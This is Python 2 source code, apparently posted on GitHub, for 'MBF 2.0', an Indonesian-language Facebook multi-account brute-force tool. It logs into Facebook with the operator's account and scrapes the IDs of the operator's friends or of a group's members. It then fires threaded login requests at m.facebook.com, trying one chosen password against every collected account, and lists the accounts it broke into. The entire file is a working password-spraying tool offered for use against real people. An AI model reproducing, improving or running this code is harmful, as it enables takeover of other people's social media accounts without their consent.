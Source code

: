 # mrgood.github.io
import platform,os,sys
def cetak(x,e=0):
	w = 'mhkbpcP'
	for i in w:
		j = w.index(i)
		x= x.replace('!%s'%i,'\033[%s;1m'%str(31+j))
	x += '\033[0m'
	x = x.replace('!0','\033[0m')
	if e != 0:
		sys.stdout.write(x)
	else:
		sys.stdout.write(x+'\n')
if platform.python_version().split('.')[0] != '2':
	cetak('!m[!] Kamu menggunakan python versi %s silahkan menggunakan versi 2.x.x'%v().split(' ')[0])
	sys.exit()
import cookielib,re,urllib2,urllib,threading
try:
  import mechanize
except ImportError:
	cetak('!m[!] SepertiNya Module !cmechanize!m belum di install...\n!h[!] pip2 install mechanize')
	sys.exit()
br = 0
log = 0
id_bteman = []
id_bgroup = []
fid_bteman = []
fid_bgroup = []
class mt(threading.Thread):
	def __init__(self,i,p):
		threading.Thread.__init__(self)
		self.id = i
		self.a = 0
		self.p = p
	def update(self):
		return self.a,self.id
	def run(self):
		try:
			data = urllib2.urlopen(urllib2.Request(url='https://m.facebook.com/login.php',data=urllib.urlencode({'email':self.id,'pass':self.p}),headers={'User-Agent':'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16'}))
		except KeyboardInterrupt:
			sys.exit()
		except:
			self.a = 4
			sys.exit()
		if 'm_sess' in data.url or 'save-device' in data.url:
			self.a = 1
		elif 'checkpoint' in data.url:
			self.a = 2
		else:
			self.a = 3
def crack(d):
	while 1:
		s = inputD('[?] Sandi')
		if len(s) < 6:
			cetak('!m[!] Jumlah huruf minimal !k6')
		else:
			break
	return crack0(d,s)
def tampilhasil(akun,sandi,data):
	cekpoint = []
	salah = 0
	berhasil = []
	for i in akun:
		st,id = i
		if st == 1:
			berhasil.append(id)
		elif st == 2:
			cekpoint.append(id)
		elif st == 3:
			salah += 1
	cetak('!h[*] Berhasil !c%d'%len(berhasil))
	if len(berhasil) != 0:
		for i in berhasil:
			cetak('!h### !p%s !m=> !b[!k%s!b]'%(i,sandi))
	cetak('!k[*] Cekpoint !c%d'%len(cekpoint))
	if len(cekpoint) != 0:
		for i in cekpoint:
			cetak('!k### !p%s !m=> !b[!k%s!b]'%(i,sandi))
	cetak('!m[*] Gagal    !c'+str(salah))
	i = inputD('[?] Tidak Puas dengan Hasil,Mau coba lagi (y/t)',['Y','T'])
	if i.upper() == 'Y':
		return crack(data)
	else:
		return menu()
def crack0(data,sandi):
	akun = []
	cetak('!h[*] MengCrack !k%d Akun !hdengan sandi !m[!k%s!m]'%(len(data),sandi))
	cetak('!h[*] Cracking  !k0!m%',1)
	sys.stdout.flush()
	jml0,jml1 = 0,0
	th = []
	for i in data:
		i = i.replace(' ','')
		i = i.replace('\n','')
		if len(i) != 0:th.append(mt(i,sandi))
		jml1 += 1
	for i in th:
		i.daemon = True
		try:i.start()
		except KeyboardInterrupt:exit()
	h_error = []
	error = 0
	while 1:
		try:
			for i in th:
				status,id = i.update()
				if status != 0:
					cetak('\r!h[*] Cracking  !k%d!m%s!0'%(int(float((float(jml0)/float(jml1))*100)),'%'),1)
					sys.stdout.flush()
					del(th[th.index(i)])
					if status == 4:
						h_error.append(id)
						if h_error.count(id) == 3:
							pass
						else:
							th.append(mt(id,sandi))
							th[len(th)-1].daemon = True
							th[len(th)-1].start()
					else:
						jml0 += 1
						akun.append((status,id))
		except KeyboardInterrupt:
			sys.exit()
		try:
			if threading.activeCount() == 1:break
		except KeyboardInterrupt:
			keluar()
	cetak('\r!h[*] Cracking  !k100!m%      ')
	tampilhasil(akun,sandi,data)
def install_browser():
	global br
	br = mechanize.Browser()
	br.set_handle_robots(False)
	br.set_handle_equiv(True)
	br.set_handle_referer(True)
	br.set_cookiejar(cookielib.LWPCookieJar())
	br.set_handle_redirect(True)
	br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(),max_time=1)
	br.addheaders = [('User-Agent','Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]
def bacaData():
	global fid_bgroup,fid_bteman
	try:
		fid_bgroup = open(os.sys.path[0]+'/MBFgroup.txt','r').readlines()
	except:pass
	try:
		fid_bteman = open(os.sys.path[0]+'/MBFteman.txt','r').readlines()
	except:pass
def simpan():
	if len(id_bgroup) != 0:
		cetak('!h[*] Menyimpan hasil dari Group')
		try:
			open(os.sys.path[0]+'/MBFgroup.txt','w').write('\n'.join(id_bgroup))
			cetak('!h[!] Berhasil meyimpan !cMBFgroup.txt')
		except:
			cetak('!m[!] Gagal meyimpan')
	if len(id_bteman) != 0:
		cetak('!h[*] Menyimpan hasil daftar Teman...')
		try:
			open(os.sys.path[0]+'/MBFteman.txt','w').write('\n'.join(id_bteman))
			cetak('!h[!] Berhasil meyimpan !cMBFteman.txt')
		except:
			cetak('!m[!] Gagal meyimpan')
def keluar():
	simpan()
	cetak('!m[!] Keluar')
	sys.exit()
def inputD(x,v=0):
	while 1:
		try:
			a = raw_input('\x1b[32;1m%s\x1b[31;1m:\x1b[33;1m'%x)
		except:
			cetak('\n!m[!] Batal')
			keluar()
		if v:
			if a.upper() in v:
				break
			else:
				cetak('!m[!] Masukan Opsinya Bro...')
				continue
		else:
			if len(a) == 0:
				cetak('!m[!] Masukan dengan benar')
				continue
			else:
				break
	return a
def inputM(x,d):
	while 1:
		try:
			i = int(inputD(x))
		except:
			cetak('!m[!] Pilihan tidak ada')
			continue
		if i in d:
			break
		else:
			cetak('!m[!] Pilihan tidak ada')
	return i
def lanjutG():
	global fid_bgroup
	if len(fid_bgroup) != 0:
		i = inputD('[?] Riset Hasil Id Group/lanjutkan (r/l)',['R','L'])
		if i.upper() == 'L':
			return crack(fid_bgroup)
		else:
			os.remove(os.sys.path[0]+'/MBFgroup.txt')
			fid_bgroup = []
	return 0
def lanjutT():
	global fid_bteman
	if len(fid_bteman) != 0:
		i = inputD('[?] Riset Hasil Id Teman/lanjutkan (r/l)',['R','L'])
		if i.upper() == 'L':
			return crack(fid_bteman)
		else:
			os.remove(os.sys.path[0]+'/MBFteman.txt')
			fid_bteman = []
	return 0
def buka(d):
	try:
		x = br.open(d)
		br._factory.is_html = True
		x = x.read()
	except:
		cetak('\r!m[!] Gagal membuka !p'+str(d))
		keluar()
	if '<link rel="redirect" href="' in x:
		return buka(br.find_link().url)
	else:
		return x
def login():
	global log
	us = inputD('[?] Email/HP')
	pa = inputD('[?] Kata Sandi')
	cetak('!h[*] Sedang Login....')
	buka('https://m.facebook.com')
	br.select_form(nr=0)
	br.form['email']=us
	br.form['pass']=pa
	br.submit()
	url = br.geturl()
	if 'save-device' in url or 'm_sess' in url:
		buka('https://mobile.facebook.com/home.php')
		nama = br.find_link(url_regex='logout.php').text
		nama = re.findall(r'\((.*a?)\)',nama)[0]
		cetak('!h[*] Selamat datang !k%s'%nama)
		cetak('!h[*] Semoga ini adalah hari keberuntungan mu...')
		log = 1
	elif 'checkpoint' in url:
		cetak('!m[!] Akun kena checkpoint\n!k[!]Coba Login dengan opera mini')
		keluar()
	else:
		cetak('!m[!] Login Gagal')
def idgroup():
	if log != 1:
		cetak('!h[*] Login !bFB!h dulu bos...')
		login()
		if log == 0:
			keluar()
	next = saring_id_group0()
	while 1:
		saring_id_group1(buka(next))
		try:
			next = br.find_link(url_regex='/browse/group/members/').url
		except:
			cetak('!m[!] Hanya Bisa Mengambil !h %d id'%len(id_bgroup))
			break
	simpan()
	i = inputD('[?] Langsung Crack (y/t)',['Y','T'])
	if i.upper() == 'Y':
		return crack(id_bgroup)
	else:
		return menu()
def saring_id_teman(r):
	for i in re.findall(r'/friends/hovercard/mbasic/\?uid=(.*?)&',r):
		id_bteman.append(i)
def idteman():
	if log != 1:
		cetak('!h[*] Login !bFB !hdulu bos...')
		login()
		if log == 0:
			keluar()
	cetak('!h[*] Sedang mengumpulkan id teman...')
	buka('https://m.facebook.com/friends/center/mbasic/?fb_ref=bm&sr=1&ref_component=mbasic_bookmark&ref_page=XMenuController')
	jumlah = br.find_link(url_regex='/friends/center/friends/').text
	jumlah = re.findall(r'\((.*a?)\)',jumlah)[0]
	cetak('!h[*] Mengambil !p%s !hid teman'%jumlah) 
	saring_id_teman(buka('https://m.facebook.com/friends/center/friends/?fb_ref=fbm&ref_component=mbasic_bookmark&ref_page=XMenuController'))
	try:
		next = br.find_link(url_regex='friends_center_main').url
	except:
		if len(id_teman) != 0:
			cetak('!m[!] Hanya dapat mengambil !p%d id'%len(id_bteman))
		else:
			cetak('!m[!] Batal')
			keluar()
	while 1:
		saring_id_teman(buka(next))
		cetak('\r!h[*] !p%s !hid terambil...'%len(id_bteman),1)
		sys.stdout.flush()
		try:
			next = br.find_link(url_regex='friends_center_main').url
		except:
			cetak('\n!m[!] Hanya dapat mengambil !p%d id'%len(id_bteman))
			break
	simpan()
	i = inputD('[?] Langsung Crack (y/t)',['Y','T'])
	if i.upper() == 'Y':
		return crack(id_bteman)
	else:
		return menu()
def menu():
	cetak("\n           !h.-.-..\n          /+/++//\n         /+/++//\n  !k*   !k* !h/+/++//\n   \ /  |/__//\n !h{!mX!h}v{!mX!h}!0!b|!cMBF!b|==========.\n   !h(!m'!h)!0  !h/'|'\           !b\\\n       !h/  \  \          !b'\n       !h\_  \_ \_   !k___!mMBF !c2.0!k___\n\n !m* !bMULTI BRUTEFORCE FACEBOOK\n !m* !cPIRMANSX\n !m* !phttps://github.com/pirmansx\n !m* !phttps://facebook.com/groups/164201767529837\n !m* !phttps://pirmansx.waper.com\n!k.======================.\n|!h  AMBIL !mID!h DARI.....  !k|\n'======================'\n!k#!p1 !hDAFTAR TEMAN\n!k#!p2 !hANGGOTA GROUP\n!k#!p3 !mKELUAR...")
	i = inputM('[?] PILIH',[1,2,3])
	if i == 2:
		lanjutG()
		idgroup()
	elif i == 1:
		lanjutT()
		idteman()
	elif i == 3:
		keluar()
bacaData()
install_browser()
menu()
#
#
#

